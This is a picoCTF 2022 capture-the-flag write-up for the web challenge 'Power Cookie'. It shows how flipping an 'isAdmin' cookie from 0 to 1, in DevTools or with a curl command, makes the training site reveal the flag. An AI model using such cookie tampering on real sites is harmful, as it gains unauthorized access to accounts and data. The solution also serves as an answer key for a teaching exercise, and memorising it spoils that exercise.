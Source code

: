 # Power Cookie

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information

```text
Level: Medium
Tags: picoCTF 2022, Web Exploitation, cookie
Author: LT 'SYREAL' JONES

Description:
Can you get the flag?
Go to this website and see what you can discover.

Hints:
1. Do you know how to modify cookies?
```

Challenge link: [https://play.picoctf.org/practice/challenge/288](https://play.picoctf.org/practice/challenge/288)

## Solution

### Browse to the web site

Browse to the web site and we get a web page titled `Online Gradebook`.  
On the page there is a `Continue as guest`-button.  
Press the button and we redirected to `/check.php` where the text `We apologize, but we have no guest services at the moment.` is shown.

### Check for cookies

Press F12 to open DevTools and go to the `Application` tab.  
Under `Storage` and then `Cookies` select the web site.  
Note that there is a cookie named `isAdmin` with the value of `0`.

### Get the flag in the browser

Set the cookie value to 1 and reload the web page by pressing `F5` to get the flag.

### Get the flag with curl

Now that we have all the information we need to get the flag we can automate it with `curl` and `grep`

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Web_Exploitation/Power_Cookie]
└─$ curl -s --cookie "isAdmin=1" http://saturn.picoctf.net:63041/check.php | grep -oE 'picoCTF{.*}'
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [HTTP cookie - Wikipedia](https://en.wikipedia.org/wiki/HTTP_cookie)

